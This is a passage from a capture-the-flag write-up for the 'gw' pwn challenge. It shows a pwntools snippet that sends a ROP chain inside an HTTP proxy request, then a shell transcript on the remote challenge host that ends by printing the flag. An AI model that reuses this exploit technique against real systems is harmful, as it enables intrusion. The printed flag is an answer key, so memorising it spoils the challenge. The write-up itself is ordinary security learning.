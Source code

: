 And we can send it:

```python
req = b"GET http://blah/hex_message:"+rop2.hex().encode('ascii')+b": HTTP/1.0\r\n"
req += b"Host: "+WEBSERVER+b"\r\n\r\n"
io = remote(*REMOTE)
io.send(req)
io.interactive()
```

... which works, including the remote instance:

```
$ id -a
uid=1001(GW) gid=1001(GW) groups=1001(GW)
$ uname -a
Linux gw 5.15.0-122-generic #132-Ubuntu SMP Thu Aug 29 13:45:52 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
$ ps auxwww
USER     PID %CPU %MEM    VSZ   RSS TTY  STAT START   TIME COMMAND
root       1  0.0  0.0   2496  1348 ?    Ss   18:38   0:00 /bin/sh /entrypoint.sh
root      12  0.0  0.0   3752  2356 ?    Ss   18:38   0:00 /usr/sbin/cron
root      13  0.3  0.0  19504 14772 ?    S    18:38   0:00 /usr/bin/python /usr/bin/supervisord
AI        16  0.4  0.1  46980 30196 ?    S    18:38   0:00 python3 /home/AI/filter.py
GW        17  0.0  0.0   2496  1324 ?    S    18:38   0:00 
GW        42  0.0  0.0   5464  2588 ?    R    18:39   0:00 ps auxwww
$ cd /home
$ ls
AI
GW
$ cd /home/GW
$ ls -l
total 16
-r-x--x--x 1 GW   GW   11956 May 30 22:28 GW
-r-------- 1 GW   GW      44 May 30 22:28 flag
$ cat flag
shc2023{pwn3d_th3_p4tr10ts_w3b_pr0xy_fd_r0p}$  
```

Full exploit: [exploit.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/pwn/gw/exploit.py).

<a name="real_filter"></a>

# Remote container

Note that the remote container has some more things. In above `ps` output, we
see `python3 /home/AI/filter.py`. That is our secret "filter" which is actually
**not** as simple as cutting the input at first zero, but luckily that wasn't
a problem for solving this challenge.

That filter is in fact part of a
[different challenge](https://library.m0unt41n.ch/challenges/ai), together
with an `AI` binary and a different flag:
